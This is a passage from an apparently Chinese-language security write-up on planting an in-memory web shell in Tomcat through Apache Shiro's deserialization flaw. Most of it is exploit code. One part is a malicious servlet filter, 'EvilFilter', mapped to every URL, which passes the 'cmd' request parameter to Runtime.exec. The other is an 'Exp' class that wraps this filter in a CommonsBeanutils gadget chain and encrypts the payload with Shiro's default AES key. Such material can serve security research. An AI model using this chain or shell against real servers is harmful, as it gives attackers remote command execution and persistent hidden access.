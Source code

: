 ```bash
            filterConfigs.put("EvilFilter", filterConfig);
            //FilterMap
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("EvilFilter");
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context.addFilterMap(filterMap);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

这里没有做回显处理只是简单的测试一下命令执行的功能。

#### 内存马测试

我们既然是要通过 shiro 的反序列化漏洞注入内存马，我们就要选择一个 gadget，在通常情况下 shiro 是没有 CC 依赖的，所以我选择打 CB 链。具体的 CB 链 payload 的构成可以参照 p 神的 java 安全漫谈配套源码[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings) 众所周知想要完成 shiro 的反序列化还需要用 AES 对生成的 payload 进行加密，所以我们最终得到的 poc 如下，使用如下代码段即可完成 payload 的生成（CommonsBeanutils1Shiro() 就是 p 神的那条 CB 链）

```bash
public class Exp {
    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(BehinderFilter.class.getName());
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```
